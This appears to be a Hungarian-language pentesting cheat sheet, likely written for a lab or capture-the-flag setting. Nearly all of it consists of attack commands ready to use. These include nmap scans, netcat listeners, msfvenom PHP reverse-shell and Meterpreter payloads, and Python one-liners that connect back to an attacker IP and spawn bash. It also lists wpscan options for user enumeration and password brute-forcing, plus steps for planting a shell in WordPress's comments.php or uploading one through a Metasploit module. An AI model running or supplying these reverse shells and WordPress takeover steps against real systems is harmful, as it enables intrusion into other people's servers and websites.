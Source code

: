 ## Advanced ping
``` sh
sudo nmap -sn <IP>
```
## Port scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Nem PHP esetén
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!
